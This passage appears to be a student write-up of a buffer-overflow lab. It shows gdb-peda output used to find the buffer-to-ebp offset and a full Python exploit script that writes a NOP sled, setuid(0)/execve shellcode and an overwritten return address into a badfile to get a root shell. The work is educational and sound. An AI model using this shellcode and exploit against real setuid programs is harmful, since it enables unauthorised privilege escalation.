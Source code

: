 
*Coming to `code` and checking the addresses of ebp and buffer and calculating the offset*
```bash
gdb-peda$ p $rbp
$1 = void
gdb-peda$ p $ebp
$2 = (void *) 0xffffcee8
gdb-peda$ p &buffer
$3 = (char (*)[100]) 0xffffce7c
```

buffer address: `0xffffce7c`

```bash
gdb-peda$ p/d  0xffffcee8 - 0xffffce7c
$5 = 108
```

With these values, I have modified `exploit.py` as follows and came to a threshold value where I can jump into root to gain its access.

```bash
#!/usr/bin/python3
import sys

# Updated 32-bit shellcode with setuid(0)

shellcode = (
    "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    "\x68\x2f\x62\x69\x6e\x89\xe3\x50"
    "\x53\x89\xe1\x31\xd2\x31\xc0\xb0"
    "\x0b\xcd\x80"
).encode('latin-1')


# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffce7c+300         # Change this number
offset = 112              # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
